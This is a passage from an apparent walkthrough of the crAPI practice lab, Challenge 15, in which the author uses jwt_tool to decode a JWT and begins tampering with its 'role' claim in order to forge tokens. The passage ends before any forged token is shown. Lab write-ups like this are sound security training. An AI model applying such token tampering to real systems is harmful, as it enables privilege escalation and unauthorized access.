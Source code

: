 ### Challenge 15 - Find a way to forge valid JWT Tokens

Instantly here, I pivot to using the good old JWT Tool

```markdown
jwt_tool master % python3 jwt_tool.py eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJoYWNrZXJAZXhhbXBsZS5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTY5NDQwMTEzMywiZXhwIjoxNjk1MDA1OTMzfQ.FRvnO_rOsqJExjLzQ7srBiOp3nHsYgqMf_dXZy3a7NMRY-46COnH7JOX9xbKmosFfQUjkPhzrfTqkY03ZuBGYSW3fADkQ_1TmaRyQJx4Yn9HOqvSpiF67HS0Ddn9z88z5ObWY8jqxiDYLReFwLZJ1OFUqaYGCjWyI17H-a5XI4JiCeHjGVwMHOIibQ_0AHqnpn9kjMmk87bYpIYE0DjLejtemrxe0CW7iJsPQ8Fq2syWaIjx-H3skPEjpGJ-JnVDf5OIiBFqXa8xXySp9oK1ljTYh-ob3ZgE4ehyAG4KwrNA3o4VHKJ99tgkqKhPP9EhQATeA9wBXygyzHiGUBfppA
```

Looking at my output, the “JOT” token associates a `role` (**private claim**) with the bearer token (current value = “`user`”):

```markdown
Token payload values:
[+] sub = "hacker@example.com"
[+] role = "user"
[+] iat = 1694401133    ==> TIMESTAMP = 2023-09-10 19:58:53 (UTC)
[+] exp = 1695005933    ==> TIMESTAMP = 2023-09-17 19:58:53 (UTC)

```

![Untitled](crAPI%20Web%20Application%20Walkthrough%20Ads%20Dawson%20Septe%2093d47975bde547a7a4048bbd2e72531d/Untitled%2063.png)

Using the `-T` parameter, let’s tamper with the values:

```markdown
jwt_tool master % python3 jwt_tool.py -T eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJoYWNrZXJAZXhhbXBsZS5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTY5NDQwMTEzMywiZXhwIjoxNjk1MDA1OTMzfQ.FRvnO_rOsqJExjLzQ7srBiOp3nHsYgqMf_dXZy3a7NMRY-46COnH7JOX9xbKmosFfQUjkPhzrfTqkY03ZuBGYSW3fADkQ_1TmaRyQJx4Yn9HOqvSpiF67HS0Ddn9z88z5ObWY8jqxiDYLReFwLZJ1OFUqaYGCjWyI17H-a5XI4JiCeHjGVwMHOIibQ_0AHqnpn9kjMmk87bYpIYE0DjLejtemrxe0CW7iJsPQ8Fq2syWaIjx-H3skPEjpGJ-JnVDf5OIiBFqXa8xXySp9oK1ljTYh-ob3ZgE4ehyAG4KwrNA3o4VHKJ99tgkqKhPP9EhQATeA9wBXygyzHiGUBfppA
```

